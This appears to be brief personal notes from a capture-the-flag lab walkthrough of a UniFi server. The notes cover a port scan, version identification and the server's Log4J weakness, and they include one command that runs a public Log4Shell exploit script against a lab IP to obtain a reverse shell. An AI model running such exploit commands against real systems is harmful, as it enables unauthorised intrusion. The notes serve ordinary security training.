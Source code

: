 2022-07-06_18-32 12022-07-06_18-32 1## Ports

- `22`    ssh 
- `6789`   ibm-db2-admin?!
- `8080`    http-proxy 
- `8443`    ssl/nagios-nsca Nagios NSCA
- `8843`    ssl/unknown
- `8080`    cddbp-alt?


Lets explore 8080 (http proxy) to see if there is some kind of web server

![[Screenshot_2022-06-30_12-20-52 1.jpg]]

It appears we have some kind of login

## Version

We can see that it is running version `6.4.54`

A quick google search tells us that this version of unified is vulnerable to the Log4J exploit.



## Exploit

I found a handy github repo called Log4JUnifi

I ran the command `python3 exploit.py -u http://10.129.217.109:8080 -i 10.10.16.48 -p 4444`


![[2022-07-06_18-32 1.png]]


and ive now got a shell

![[2022-07-06_18-34.png]]